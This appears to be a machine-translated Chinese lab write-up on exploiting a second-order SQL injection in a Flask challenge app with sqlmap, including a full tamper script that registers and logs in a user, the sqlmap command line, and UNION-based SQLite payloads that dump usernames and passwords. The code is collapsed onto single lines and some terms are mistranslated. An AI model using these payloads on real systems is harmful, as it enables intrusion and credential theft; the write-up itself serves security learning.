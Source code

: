 *****可以使用 sqlmap 来自动化这种攻击，但是使用 sqlmap 的标准攻击将会失败。注入发生在用户注册时，但是易受攻击的函数位于注释页面上。要让 sqlmap 利用此漏洞，它必须执行以下步骤:*****

1.  *****注册一个恶意用户*****
2.  *****恶意用户登录*****
3.  *****转到注释页面触发注射*****

*****通过创建篡改脚本可以实现所有必要的步骤。Sqlmap 支持篡改脚本，即用于篡改注入数据的脚本。使用篡改脚本，我们可以轻松地修改有效负载，例如，向它添加自定义编码。它还允许我们设置其他东西，比如 cookies。*****

*****下面的篡改脚本中有两个自定义函数。第一个函数是 *create_account()* ，它用 sqlmap 的有效负载作为名称，用‘ASD’作为密码注册一个用户。下一个定制函数是 *login()* ，它以新创建的用户身份登录 sqlmap 并返回 Flask 会话 cookie。 *tamper()* 是脚本中的主要函数，它有*有效负载*和 ***kwargs* 作为参数。 ***kwargs* 保存诸如 HTTP 头之类的信息，我们需要将 Flask 会话 cookie 放在请求上，以允许 sqlmap 转到 notes 页面来触发 SQL 注入。 *tamper()* 函数首先从 *kwargs* 获取头，然后在应用程序上创建一个新用户，然后登录到应用程序并在 HTTP 头对象上设置 Flask 会话。*****

```
******#!/usr/bin/python*import requestsfrom lib.core.enums import PRIORITY__priority__ = PRIORITY.NORMALaddress = "http://10.10.1.134:5000/challenge4"password = "asd"def **dependencies**():passdef **create_account**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/signup", data=data)def **login**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/login", data=data)sessid = s.cookies.get("session", None)return "session={}".format(sessid)def **tamper**(payload, **kwargs):headers = kwargs.get("headers", {})create_account(payload)headers["Cookie"] = login(payload)return payload*****
```

*****篡改脚本所在的文件夹也需要一个空的 *__init__。py* 文件，以便 sqlmap 能够加载它。在使用篡改脚本启动 sqlmap 之前，更改脚本中的地址和密码变量。完成后，就可以使用以下命令利用该漏洞:*****

```
*****sqlmap --tamper so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup)  --data "username=admin&password=asd"--second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes)  -p username --dbms sqlite --technique=U --no-cast*# --tamper so-tamper.py - The tamper script**# --url - The URL of the injection point, which is /signup in this case**# --data - The POST data from the registraion form to /signup.**#   Password must be the same as the password in the tamper script**# --second-url* [*http://10.10.1.134:5000/challenge4/notes*](http://10.10.1.134:5000/challenge4/notes) *- Visit this URL to check for results**# -p username - The parameter to inject to**# --dbms sqlite - To speed things up**# --technique=U - The technique to use. [U]nion-based**# --no-cast - Turn off payload casting mechanism******
```

*****如果不使用 *—无转换*参数关闭有效负载转换机制，转储*用户*表可能会很困难。这里可以看到铸造和不铸造之间区别的一个例子:*****

## *****—启用铸造时:*****

```
*****admin' union **all** select **min**(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master where tbl_name=cast(x'7573657273' as text)-- daqo'-- 7573657273 is 'users' in **ascii*******
```

## *****—无铸件:*****

```
*****admin' union **all** select cast(x'717a6a7871' as text)||**id**||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null from users-- ypfr'*****
```
